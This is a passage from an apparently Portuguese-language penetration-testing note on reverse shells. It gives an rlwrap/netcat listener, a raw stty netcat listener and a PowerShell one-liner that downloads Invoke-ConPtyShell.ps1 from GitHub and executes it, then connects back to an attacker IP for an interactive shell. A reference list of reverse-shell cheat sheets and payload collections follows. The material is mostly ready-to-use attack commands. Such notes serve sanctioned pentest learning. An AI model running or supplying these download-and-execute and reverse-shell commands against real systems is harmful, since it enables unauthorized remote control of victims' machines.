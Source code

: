 ```sh
rlwrap -r -f . nc 10.0.0.1 4242
# -f . -> vai fazer o rlwrap usar do histórico local para auto completamento.
# -r -> Vai ajudar no autocompletamento também.
```

### Pseudo Console (ConPty)

Esse particularmente é muito interessante, nunca tinha usado mas vi que da certo e vou começar a usar também.

Ele usa a função [CreatePseudoConsole()](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole)

Servidor

```sh
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Cliente

```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

Ou temos o offline dele, caso a rede atacada não tenha acesso à Internet.

`https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1`


# Referências

[Pentest Monekey - 
Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Reverse Bash One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)

[Payload All The Things - Reverse Shel Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Static Binaries - Andrew-d](https://github.com/andrew-d/static-binaries)

[Suite Nishang](https://github.com/samratashok/nishang/tree/master/Shells)

[ConPtyShell - Windows](https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1)

[Create Pseudo Console - Windows](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole)